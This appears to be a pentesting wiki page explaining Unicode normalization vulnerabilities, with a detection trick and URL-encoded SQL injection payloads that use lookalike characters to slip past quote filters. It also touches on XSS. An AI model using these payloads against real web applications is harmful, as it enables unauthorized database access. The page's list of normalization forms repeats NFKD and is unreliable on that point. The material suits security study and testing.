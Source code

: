 # Unicode Normalization vulnerability

## Background

Normalization ensures two strings that may use a different binary representation for their characters have the same binary value after normalization.

There are two overall types of equivalence between characters, “**Canonical Equivalence**” and “**Compatibility Equivalence**”:  
**Canonical Equivalent** characters are assumed to have the same appearance and meaning when printed or displayed. **Compatibility Equivalence** is a weaker equivalence, in that two values may represent the same abstract character but can be displayed differently. There are **4 Normalization algorithms** defined by the **Unicode** standard; **NFC, NFD, NFKD and NFKD**, each applies Canonical and Compatibility normalization techniques in a different way. You can read more on the different techniques at Unicode.org.

### Unicode Encoding

Although Unicode was in part designed to solve interoperability issues, the evolution of the standard, the need to support legacy systems and different encoding methods can still pose a challenge.  
Before we delve into Unicode attacks, the following are the main points to understand about Unicode:

* Each character or symbol is mapped to a numerical value which is referred to as a “code point”.
* The code point value \(and therefore the character itself\) is represented by 1 or more bytes in memory. LATIN-1 characters like those used in English speaking countries can be represented using 1 byte. Other languages have more characters and need more bytes to represent all the different code points \(also since they can’t use the ones already taken by LATIN-1\).
* The term “encoding” means the method in which characters are represented as a series of bytes. The most common encoding standard is UTF-8, using this encoding scheme ASCII characters can be represented using 1 byte or up to 4 bytes for other characters.
* When a system processes data it needs to know the encoding used to convert the stream of bytes to characters.
* Though UTF-8 is the most common, there are similar encoding standards named UTF-16 and UTF-32, the difference between each is the number of bytes used to represent each character. i.e. UTF-16 uses a minimum of 2 bytes \(but up to 4\) and UTF-32 using 4 bytes for all characters.

An example of how Unicode normalise two different bytes representing the same character:

![](../.gitbook/assets/image%20%2831%29.png)

**A list of Unicode equivalent characters can be found here:** [https://appcheck-ng.com/wp-content/uploads/unicode\_normalization.html](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)

### Discovering

If you can find inside a webapp a value that is being echoed back, you could try to send **‘KELVIN SIGN’ \(U+0212A\)** which **normalises to "K"** \(you can send it as `%e2%84%aa`\). **If a "K" is echoed back**, then, some kind of **Unicode normalisation** is being performed.

Other **example**: `%F0%9D%95%83%E2%85%87%F0%9D%99%A4%F0%9D%93%83%E2%85%88%F0%9D%94%B0%F0%9D%94%A5%F0%9D%99%96%F0%9D%93%83` after **unicode** is `Leonishan`.

## **Vulnerable Examples**

### **SQL Injection filter bypass**

Imagine a web page that is using the character `'` to create SQL queries with the user input. This web, as a security measure, **deletes** all occurrences of the character **`'`** from the user input, but **after that deletion** and **before the creation** of the query, it **normalises** using **Unicode** the input of the user.

Then, a malicious user could insert a different Unicode character equivalent to `' (0x27)` like `%ef%bc%87` , when the input gets normalised, a single quote is created and a **SQLInjection vulnerability** appears:

![](../.gitbook/assets/image%20%28319%29.png)

#### Some interesting Unicode characters

* `o` -- %e1%b4%bc
* `r` -- %e1%b4%bf
* `1` -- %c2%b9
* `=` -- %e2%81%bc
* `/` -- %ef%bc%8f
* `-`--  %ef%b9%a3
* `#`--  %ef%b9%9f
* `*`--  %ef%b9%a1
* `'` -- %ef%bc%87
* `"` -- %ef%bc%82
* `|` -- %ef%bd%9c

```text
' or 1=1-- -
%ef%bc%87+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

" or 1=1-- -
%ef%bc%82+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

' || 1==1//
%ef%bc%87+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f

" || 1==1//
%ef%bc%82+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f
```

### XSS \(Cross Site Scripting\)

You could use one of the following characters to trick the webapp and exploit a XSS:

![](../.gitbook/assets/image%20%28312%29.png)

Notice that for example the first Unicode character purposed can be sent as: `%e2%89%ae` or as `%u226e`

![](../.gitbook/assets/image%20%28215%29.png)

## References

**All the information of this page was taken from:** [**https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/\#**](https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/#)

**Other references:**

* \*\*\*\*[**https://labs.spotify.com/2013/06/18/creative-usernames/**](https://labs.spotify.com/2013/06/18/creative-usernames/)\*\*\*\*
* \*\*\*\*[**https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work**](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)\*\*\*\*
* \*\*\*\*[**https://jlajara.gitlab.io/posts/2020/02/19/Bypass\_WAF\_Unicode.html**](https://jlajara.gitlab.io/posts/2020/02/19/Bypass_WAF_Unicode.html)\*\*\*\*

